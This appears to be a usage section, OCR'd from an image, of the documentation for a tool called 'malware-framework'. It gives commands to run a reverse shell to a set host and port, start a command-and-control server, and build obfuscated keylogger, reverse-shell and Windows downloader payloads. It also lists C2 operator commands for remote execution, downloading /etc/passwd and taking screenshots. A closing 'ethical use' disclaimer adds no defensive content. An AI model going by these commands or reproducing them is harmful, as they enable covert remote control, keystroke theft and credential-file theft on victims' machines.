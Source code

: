 ### 1. **Basic Usage**
```bash
# Install framework
sudo ./install.sh

# List available modules
malware-framework --list-modules

# Run reverse shell
malware-framework --module reverse_shell --host 192.168.1.100 --port 4444

# Start C2 server
malware-framework --c2-server --port 4444

# Interactive mode
malware-framework --interactive
```

### 2. **Payload Building**
```bash
# Build reverse shell
python builder.py --module reverse_shell --host 192.168.1.100 --port 4444

# Build with obfuscation
python builder.py --module keylogger --obfuscate --encrypt-strings

# Cross-platform build
python builder.py --module downloader --platform windows --format pyinstaller
```

### 3. **C2 Operations**
```bash
# Start C2 server
malware-framework --c2-server

# C2 Commands:
list                    # List connected clients
shell client_1 whoami   # Execute command
info client_1          # Get client info
download client_1 /etc/passwd  # Download file
screenshot client_1    # Take screenshot
```

## 🔒 Security Considerations

### 1. **Ethical Use**
- **Educational purposes** only
- **Authorized testing** required
- **Legal compliance** mandatory
- **Responsible disclosure** practices
